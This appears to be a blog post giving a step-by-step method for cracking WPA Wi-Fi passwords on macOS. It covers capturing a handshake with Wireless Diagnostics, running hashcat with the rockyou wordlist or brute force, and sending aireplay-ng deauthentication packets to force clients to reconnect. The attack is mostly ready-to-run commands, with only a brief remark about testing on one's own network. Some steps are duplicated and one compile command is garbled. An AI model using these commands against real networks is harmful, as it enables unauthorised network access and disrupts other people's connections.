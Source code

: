 ```yaml
---
title: Wifi Cracker in Mac OS X
date: 2020-01-12 23:04:34
categories:
tags:
---
```


Mac OS X comes with a suite of wireless diagnostic tools. To open them, hold down the option key on your keyboard and click on the Wi-Fi icon in the menu bar. Then click "Open Wireless Diagnostics..." and then click on Window > Scan. Find the target network, note its channel and width.

# Capture a 4-way Handshake
With Wireless Diagnostics open, click on Window > Sniffer. Select the channel and width that you found in the previous step.
Now you'll need to wait for a device to connect to the target network. If you are testing this on your network (which you should be), reconnect a wireless device to capture a handshake.
Once you think you've got a handshake, click Stop.
The .wcap capture file will either be saved to your Desktop or /var/tmp/ depending on your operating system version.
Convert the capture file to .hccapx by uploading it to https://hashcat.net/cap2hccapx/. If you captured any handshakes, the site will start downloading a .hccapx file. No download will be prompted if you did not.

<!--more-->

* With Wireless Diagnostics open, click on Window > Sniffer. Select the channel and width that you found in the previous step.
* Now you'll need to wait for a device to connect to the target network. If you are testing this on your network (which you should be), reconnect a wireless device to capture a handshake.
* Once you think you've got a handshake, click Stop.
The .pcap capture file will either be saved to your Desktop or /var/tmp/ depending on your operating system version.
* Convert the capture file to .hccapx by using https://github.com/hashcat/hashcat-utils in src folder compile to bin.
  
`gcc -o cap2hccapx cap2hccapx.c" and then run it: "./cap2hccapx"`

# Crack the password with hashcat

```
brew install hashcat
hashcat -m 2500 capture.hccapx wordlist.txt
# or brute force
hashcat -m 2500 -a3 capture.hccapx ?d?d?d?d?d?d?d?d
```

# Wordlist - Download the 134MB rockyou dictionary file

```
curl -L -o dicts/rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt

```
Other bigger candidates: 
* https://github.com/berzerk0/Probable-Wordlists/tree/master/Real-Passwords/WPA-Length
* https://xa.to/10m

# Deauth Attack

## Get deauth Tool
```
brew install aircrack-ng
```
Find `aireplay-ng` in sbin.

```
# -0 2 specifies we would like to send 2 deauth packets. Increase this number
# if need be with the risk of noticeably interrupting client network activity
# -a is the MAC of the access point
# -c is the MAC of the client
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 -c 64:BC:0C:48:97:F7 mon0
```
You can optionally broadcast deauth packets to all connected clients with:
```
# not all clients respect broadcast deauths though
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 mon0
```


reference:

https://github.com/brannondorsey/wifi-cracking
https://louisabraham.github.io/articles/WPA-wifi-cracking-MBP.html